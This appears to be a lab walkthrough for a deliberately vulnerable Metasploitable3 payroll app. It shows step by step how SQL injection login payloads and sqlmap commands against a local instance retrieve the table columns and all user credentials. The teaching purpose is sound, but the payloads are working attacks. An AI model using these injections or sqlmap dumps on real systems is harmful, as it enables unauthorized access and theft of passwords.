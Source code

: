 <b>For this tutorial you will need the following tools</b>

* Browser (Prefarably Mozilla)
* Burpsuite
* SQLMap

1. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | admin    |
   | PASSWORD  | admin    |  

RESULTS: The webpage will display your username and no content
 
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-1.png "STEP 1")
   
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-1.png "Result 1")
2. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | '        |
   | PASSWORD  | admin    |  

RESULTS: The webpage will be blank
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-2.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-2.png "RESULT 2")
   
3. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | ' or 1;#'|
   | PASSWORD  | admin    |  

RESULTS: The web page will return all the user content
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-3.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-3.png "RESULT 2")
4. <b>Use SQLMap to extract the database using the following commands:</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST
   ```

RESULTS: SQLMap will identify whether the web application is vulnerable to SQL Injection
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-4-sqlmap.png "STEP 4")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-4-1.png "RESULT 4")
   
5. <b>Use SQLMap to extract the columns in the table</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST --columns
   ```

RESULTS: SQLMap will retrieve the columns on the application tables
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-1.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-2.png "RESULT 5")   

6. <b>Use the fields retrieved to retrieve the user passwords:</b>

   | Field     | Value                                       |
   | --------- |:-------------------------------------------:|
   | USERNAME  | ' or 1 union select 1,username,password,1;#'|
   | PASSWORD  | admin                                       |  

RESULTS: The web page will return the user credentials
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-6.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-1.png "RESULT 6")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-2.png "RESULT 6")  
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-3.png "RESULT 6")   
